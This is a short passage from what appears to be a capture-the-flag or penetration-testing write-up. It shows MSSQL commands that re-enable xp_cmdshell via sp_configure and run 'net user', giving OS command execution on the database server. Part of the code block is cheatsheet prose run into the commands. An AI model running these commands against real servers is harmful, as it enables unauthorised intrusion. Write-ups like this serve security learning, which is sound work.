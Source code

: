 Then I used the [previous link](https://book.hacktricks.xyz/network-services-pentesting/pentesting-mssql-microsoft-sql-server) as well as this [cheatsheet](https://pentestmonkey.net/cheat-sheet/sql-injection/mssql-sql-injection-cheat-sheet) for `sql` commands. Generating command execution seems good:

```ps
EXEC xp_cmdshell 'net user'; — privOn MSSQL 2005 you may need to reactivate xp_cmdshell first as it’s disabled by default:
EXEC sp_configure 'show advanced options', 1; — priv
RECONFIGURE; — priv
EXEC sp_configure 'xp_cmdshell', 1; — priv
RECONFIGURE; — priv
```

And we have command execution:
![shell](images/shell.png#center)
